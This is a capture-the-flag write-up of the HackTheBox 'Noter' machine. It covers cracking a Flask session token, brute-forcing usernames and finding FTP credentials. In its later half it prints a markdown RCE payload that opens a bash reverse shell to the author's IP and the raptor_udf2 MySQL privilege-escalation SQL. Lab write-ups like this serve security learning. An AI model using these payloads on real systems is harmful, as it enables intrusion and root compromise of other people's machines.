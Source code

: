 


# Noter Machine
<p align="center">
<img src="./img/box.png" allign="center" alt="Logo">
</p>

## Machine Stats :
<p align="center">
<img src="./img/stats.png">
</p>


# Walkthrough :

I started as always by scanning the machine ports :

<img src="./img/0.png">

* SSH on port 22.

* FTP on 21.

* A webserver on port 5000.


I tried anonymous login on ftp but that didn't work. So i decided to look at the web server on port 5000. It was a flask web app that provides users with a database to store and manage notes.

<img src="./img/2.png">

Trying common logins and passwords (admin:admin, *:*, root:root ...) or trigering an SQL error wasn't fruitful.
So i decided to register a user Tom to be able to further explore the app.

<img src="./img/3.png">


While inspecting the intercepted requests on burp, i found out that a session token (looks like JWT) is used.
I decoded it with jwt.io which revealed an awkward payload and an interesting header.

<img src="./img/4.png">

It wasn't actually a typical jwt which often looked more like this (with a valid signature):

<img src="./img/5.png">

I figured out that it was a flask token thanks to Carlos Polop's HackTricks (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask/).
Using flask_unsign with a rockyou.txt as a wordlist was good enough to reveal the secret.


<img src="./img/6.png">

I'm now able to craft my own tokens using the same tool to bruteforce usernames.
All i needed was a bash script and a good wordlist to generate my tokens:

<img src="./img/7.png">

I used ffuf using my generated tokens as a session value and there was 2 200 HTTP responses (A wrong token redirects to /login).

<img src="./img/8.png">

A username "user" which was useless and another one named "blue" which actually had some stored notes.

One note written by ftp_admin exposed the ftp username and password of blue.

<img src="./img/9.png">

I used these creds to access ftp on port 21. It had an empty directory and a pdf file which exposed the comapany's password policy.
Reading only the title, i thought i only had some additional specifications making password guessing easier, but it actually specified the way default passwords are generated.

<img src="./img/11.png">

I tried to ftp using user:user@Noter! but it failed it made me think that it was just an account created by another HTB player.(i was so desperate that i tried root:root@Noter! too)
But there was a potential username which i didn't used yet, so i decided to give it a shot.
ftp_admin:ftp_admin@Noter! was the one.

<img src="./img/12.png">

i downloaded and decompressed the zip files and now i finally have the app's source code xD.

<img src="./img/13.png">

the app.py file had the database credentials

<img src="./img/14.png">

Through the templates folder, i discovered hidden paths import_note and export_note which looked promising with the "Export directly from cloud" feature.


<img src="./img/15.png">

It's backend code was in md_to_pdf.js. And Google proved again that it's my best friend, revealing an RCE vulnerability:

<img src="./img/16.png">

The only proof of concept i found was a local one :

<img src="./img/17.png">

But in my case i hosted a markdown file (.md) with a reverse shell payload:

``` ---js\n((require("child_process")).execSync("bash -i >& /dev/tcp/10.10.14.43/4444 0>&1"))\n--- ```

I prepared my listener and requested my malicious md file (http://10.10.14.43:80/a.md) from th vulnerable server to trigger the rce but it didn't work, i didn't catch a shell. 

<img src="./img/18.png">

I had this problem before and i thought i had a trick to fix it which was wrapping the revshell in bash -c ''.
It was better but i still didn't get an interactive shell.

<img src="./img/19.png">

Looking again at the public proof of concept i had an idea of seperating the shell and the rce payload.
And successfully got a shell.

<img src="./img/20.png">

Running linpeas revealed an open mysql port and i already have the root creds.
After some searching i found this Privilege Escalation with MySQL User Defined Functions:

<img src="./img/22.png">

I downloaded the library compiled it and made a text file containing the payload to copy the root flag to /tmp and make it readable.

``` 
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /root/root.txt /tmp; chown svc svc /tmp/root.txt;');
 ```

And now i have the root flag.

<img src="./img/23.png">


Made by Fckroun with <3
